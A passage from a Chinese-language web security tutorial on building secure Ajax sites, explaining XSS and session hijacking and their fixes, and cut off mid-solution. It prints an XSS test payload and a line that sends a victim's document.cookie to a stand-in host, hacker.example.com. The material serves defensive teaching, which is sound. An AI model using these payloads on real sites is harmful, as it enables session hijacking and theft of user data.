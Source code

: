 # 构建安全的 Ajax 网站

Ajax 本身并不会产生任何安全风险，但是将网站变成 Ajax 化的方法可能会带来安全风险。这些风险对所有 Web 应用程序都是普遍的。

## 做好准备

我们需要一个安装了开发人员工具的 Web 浏览器。此目的可能的工具包括带有 Firebug 的 Firefox。

## 如何做...

在 Ajax 或非 Ajax 基于 Web 的应用程序中一些常见的安全威胁包括 XSS、SQL 注入和会话劫持。我们将看到它们如何被防止。

1.  **XSS**

XSS 或跨站脚本攻击利用了通过用户输入或某种方式通过 URL 进行网站脚本添加的能力。让我们以允许用户输入其个人简介的流行 Twitter 网站为例。考虑以下输入**Bio**字段：

```php
<script>alert('XSS');</script>

```

如果 Twitter 工程师允许 HTML 执行，或者在显示它们之前没有对条目进行净化，它将提示一个带有文本**XSS**的警报框。在现实世界的情况下，它不会是一个警报框，而可能是恶意活动，比如通过已知 URL 模仿用户输入或窃取用户数据或劫持会话：

```php
ajaxReq('http://example.com/updateUser.php?passwd=xyz');

```

通常，黑客可能无法直接访问`updateUser.php`页面；但是 JavaScript 代码可以完全访问，因为它在当前会话范围内。因此，在这里，我们还必须看看我们的架构：

```php
document.write('<img src= "http://hacker.example.com/storeHackedData.php?' + document.cookie + '" />';

```

有了执行这个恶意代码的能力，黑客可能开始窃取浏览器 cookie。通过 cookie 中的会话 ID，黑客可能劫持用户的会话。

**解决方案：**

XSS 的可能解决方案包括：

+   `strip_tags()`

但是，当我们必须显示 HTML 输入时，这可能不是一个好的解决方案。

+   HTML 净化器库[`htmlpurifier.org/`](http://htmlpurifier.org/)

这个库可以净化 HTML 代码，因此对于 XSS 问题是一个更好的选择。

1.  **会话劫持**

如前所述，黑客可能窃取 cookie 数据，从而获取用户的会话 ID。当黑客通过 cookie 编辑工具设置其浏览器的会话值时，黑客将获得对其他用户会话的访问权限。当服务器或脚本被编程为对所有通信使用相同的会话 ID 时，这种威胁通常很常见。

**解决方案：**

一个可能的快速解决方案是为每个请求生成一个新的会话 ID：
